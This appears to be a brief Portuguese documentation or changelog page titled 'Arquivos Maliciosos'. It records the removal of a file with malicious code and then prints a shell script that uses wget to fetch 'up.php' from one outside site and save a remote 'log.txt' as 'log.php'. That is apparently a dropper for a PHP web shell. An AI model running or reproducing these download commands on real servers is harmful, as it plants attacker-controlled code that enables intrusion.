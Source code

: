 ```yaml
---
id: doc35
title: Arquivos Maliciosos
sidebar_label: COD 2019-09-20:06
---
```


## 35.0.0 - 2017-09-25

### Fixed

- Removido arquivo kywNIS com código malicioso

## Código

```sh

#!/bin/sh
wget 'http://stg-bypass-wlga.cgstack.com/sites/default/files/up.php'
wget -c 'http://www.karineadrover.com/wp-content/uploads/2019/07/11/log.txt' -O log.php


```

